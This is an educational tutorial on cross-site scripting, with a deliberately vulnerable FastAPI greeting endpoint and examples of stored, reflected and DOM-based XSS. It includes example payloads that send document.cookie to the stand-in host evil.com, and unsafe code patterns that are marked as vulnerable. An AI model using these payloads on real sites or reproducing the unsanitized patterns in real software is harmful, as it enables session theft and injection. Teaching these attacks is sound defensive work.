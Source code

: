 1️⃣ What is XSS (Cross-Site Scripting)?

Cross-Site Scripting (XSS) is a security vulnerability where attackers inject malicious scripts (JavaScript, HTML, or other code) into web applications. This script then runs in a victim's browser, stealing data, modifying pages, or performing actions on behalf of the user.

📌 Key Attack Flow:

    Attacker injects JavaScript into a web application.

    Browser executes the script thinking it's part of the website.

    User's data (cookies, session tokens, etc.) is stolen or actions are performed without consent.

2️⃣ Example: How an XSS Attack Works

Let's assume a website echoes user input without sanitization.
🔴 Vulnerable Code (FastAPI Example)

A simple FastAPI app that takes a username from the query parameters and displays it:

from fastapi import FastAPI
from fastapi.responses import HTMLResponse

app = FastAPI()

@app.get("/greet", response_class=HTMLResponse)
async def greet_user(name: str):
    return f"<h1>Hello, {name}!</h1>"  # ❌ XSS Vulnerability (User input is not sanitized)

✅ If a user visits:

http://example.com/greet?name=John

🔹 The output is:

<h1>Hello, John!</h1>

🚨 Attack Scenario:
An attacker can craft a URL like this:

http://example.com/greet?name=<script>alert('Hacked!')</script>

🔹 This gets executed in the victim's browser:

<h1>Hello, <script>alert('Hacked!')</script>!</h1>

🔹 This pops up an alert message, proving the script was injected.
3️⃣ Types of XSS Attacks

XSS attacks can be classified into three main types:
🔹 1. Stored XSS (Persistent)

    The malicious script is permanently stored in the database.

    Every time a user visits the page, the script is executed automatically.

    Common in comment sections, user profiles, and message boards.

📌 Example:
If a user posts a comment:

<script>fetch('https://evil.com?cookie=' + document.cookie)</script>

    This script is stored in the database.

    Whenever another user views the comment, the script runs and sends their cookies to the attacker.

🔹 2. Reflected XSS (Non-Persistent)

    The attack is injected via a request (URL, form, or search bar).

    The script is not stored but immediately reflected in the response.

    This is often exploited through phishing links.

📌 Example:
An attacker sends this link:

http://example.com/search?q=<script>document.location='https://evil.com?cookie='+document.cookie</script>

    If the search page does not sanitize input, this executes JavaScript and steals the user's session.

🔹 3. DOM-Based XSS

    The attack happens entirely in the browser (client-side).

    JavaScript dynamically updates the page without proper sanitization.

    No need for server interaction.

📌 Example:
A script modifies the DOM like this:

var userInput = location.hash.substr(1);
document.getElementById("output").innerHTML = userInput; // ❌ Unsafe

If a user visits:

http://example.com/#<script>alert('Hacked!')</script>

    The script executes, allowing the attacker to manipulate the page.

